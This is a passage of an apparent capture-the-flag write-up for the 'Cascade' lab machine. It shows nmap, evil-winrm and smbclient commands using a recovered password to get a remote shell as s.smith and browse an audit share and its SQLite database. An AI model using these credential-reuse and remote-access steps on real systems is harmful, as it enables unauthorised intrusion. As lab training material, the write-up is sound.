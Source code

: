 And get the password `sT333ve2` . At this point I nmap again to check if winrm is open.

```
kali@kali:~$ nmap -Pn -p 5985,5986 10.10.10.182
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-08 19:27 EDT
Nmap scan report for 10.10.10.182
Host is up (0.069s latency).

PORT     STATE    SERVICE
5985/tcp open     wsman
5986/tcp filtered wsmans

Nmap done: 1 IP address (1 host up) scanned in 1.77 seconds
kali@kali:~$ 

```
I first try with user s.smith(name taken from enum4linux output) as this user was also seen in the `Meeting_Notes_June_2018.html` file.

```
kali@kali:~$ evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami
cascade\s.smith
```
I am logged in as `s.smith` now and I can read the user.txt file also.
After poking around the box I can't seem to find much. So I go back, and try to see if I can access the smb share with the credentials of the new user...

```
smbclient  //10.10.10.182/Audit$ -U s.smith
Enter WORKGROUP\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                       A    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                      A    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

                13106687 blocks of size 4096. 7796325 blocks available
smb: \> 
```
I can access audit which contains a .exe with a dll which seems to be linked to it A DB folder and some others .ddl files.
Inside DB there is a file named `Audit.db`.
```
kali@kali:~/Desktop/Boxes/Cascade/smbshare/$ file Audit.db 
Audit.db: SQLite 3.x database, last written using SQLite version  
```
I open the file  with SQlite database browser. I find inside the Ldap Table a base64 string. I try to decode it bu nothing. This seems to belong to a user named `ArkSvc`. This user maybe is related to ArkAdRecycleBin as seen on the log.
![arksvc](https://user-images.githubusercontent.com/16364370/78844152-70393580-79f4-11ea-9b2f-ea0702d2dd8b.png)
